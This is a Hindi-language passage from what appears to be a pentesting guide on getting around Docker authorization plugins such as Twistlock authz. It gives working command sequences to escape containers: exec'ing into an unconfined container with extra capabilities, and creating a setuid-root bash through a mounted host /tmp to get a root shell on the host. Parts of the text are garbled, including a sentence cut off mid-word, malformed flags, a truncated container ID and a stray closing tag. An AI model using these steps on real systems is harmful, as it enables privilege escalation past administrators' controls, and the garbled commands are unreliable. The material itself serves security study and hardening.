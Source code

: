 # प्लगइन उदाहरण

## Twistlock AuthZ Broker

प्लगइन [**authz**](https://github.com/twistlock/authz) आपको एक सरल **JSON** फ़ाइल बनाने की अनुमति देता है जिसे प्लगइन अनुरोधों की अधिकृति के लिए पढ़ने के लिए उपयोग करेगा। इसलिए, यह आपको बहुत आसानी से नियंत्रित करने का अवसर देता है कि प्रत्येक उपयोगकर्ता किस API एंडपॉइंट तक पहुंच सकता है।

यह एक उदाहरण है जो एलिस और बॉब को नए कंटेनर बना सकते हैं: `{"name":"policy_3","users":["alice","bob"],"actions":["container_create"]}`

पृष्ठ [route\_parser.go](https://github.com/twistlock/authz/blob/master/core/route\_parser.go) में आप अनुरोधित URL और क्रिया के बीच संबंध पा सकते हैं। पृष्ठ [types.go](https://github.com/twistlock/authz/blob/master/core/types.go) में आप क्रिया के नाम और क्रिया के बीच संबंध पा सकते हैं

## सरल प्लगइन ट्यूटोरियल

आप एक **सरल समझने योग्य प्लगइन** जिसमें स्थापना और डीबगिंग के बारे में विस्तृत ज
```bash
docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash
```
### कंटेनर चलाना और फिर एक विशेषाधिकार सत्र प्राप्त करना

इस मामले में सिस्टम प्रशासक ने उपयोगकर्ताओं को वॉल्यूम माउंट और `--privileged` ध्वज के साथ कंटेनर चलाने या कंटेनर को कोई अतिरिक्त क्षमता न देने की अनुमति नहीं दी:
```bash
docker run -d --privileged modified-ubuntu
docker: Error response from daemon: authorization denied by plugin customauth: [DOCKER FIREWALL] Specified Privileged option value is Disallowed.
See 'docker run --help'.
```
हालांकि, एक उपयोगकर्ता **चल रहे कंटेनर के अंदर एक शैल बना सकता है और उसे अतिरिक्त विशेषाधिकार दे सकता है**:
```bash
docker run -d --security-opt seccomp=unconfined --security-opt apparmor=unconfined ubuntu
#bb72293810b0f4ea65ee8fd200db418a48593c1a8a31407be6fee0f9f3e4f1de

# Now you can run a shell with --privileged
docker exec -it privileged bb72293810b0f4ea65ee8fd200db418a48593c1a8a31407be6fee0f9f3e4f1de bash
# With --cap-add=ALL
docker exec -it ---cap-add=ALL bb72293810b0f4ea65ee8fd200db418a48593c1a8a31407be6fee0f9f3e4 bash
# With --cap-add=SYS_ADMIN
docker exec -it ---cap-add=SYS_ADMIN bb72293810b0f4ea65ee8fd200db418a48593c1a8a31407be6fee0f9f3e4 bash
```
अब, उपयोगकर्ता किसी भी [**पहले चर्चित तकनीकों**](./#privileged-flag) का उपयोग करके कंटेनर से बाहर निकल सकता है और मेज़बान में **विशेषाधिकारों को बढ़ा सकता है**।

## माउंट करने योग्य फ़ोल्डर

इस मामले में सिस्टम प्रशासक ने उपयोगकर्ताओं को कंटेनर को `--privileged` फ़्लैग के साथ चलाने से रोक दिया या कंटेनर को कोई अतिरिक्त क्षमता देने की अनुमति दी, और उसने केवल `/tmp` फ़ोल्डर को माउंट करने की अनुमति दी:
```bash
host> cp /bin/bash /tmp #Cerate a copy of bash
host> docker run -it -v /tmp:/host ubuntu:18.04 bash #Mount the /tmp folder of the host and get a shell
docker container> chown root:root /host/bash
docker container> chmod u+s /host/bash
host> /tmp/bash
-p #This will give you a shell as root
```
{% hint style="info" %}